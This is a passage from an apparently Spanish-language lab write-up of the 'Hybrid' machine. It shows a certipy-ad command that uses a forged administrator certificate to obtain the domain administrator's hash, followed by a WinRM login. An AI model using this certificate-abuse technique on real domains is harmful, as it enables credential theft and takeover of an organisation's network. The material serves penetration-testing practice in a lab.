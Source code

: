 Se obtiene finalmente el hash para el usuario administrator@hybrid.vl

`certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.204.117`

![](../assets/images/vl-hybrid/Pasted_image_20240713235405.png)

Por último lugar, realizamos la conexión mediante mediante winrm.

![](../assets/images/vl-hybrid/Pasted_image_20240713235504.png)


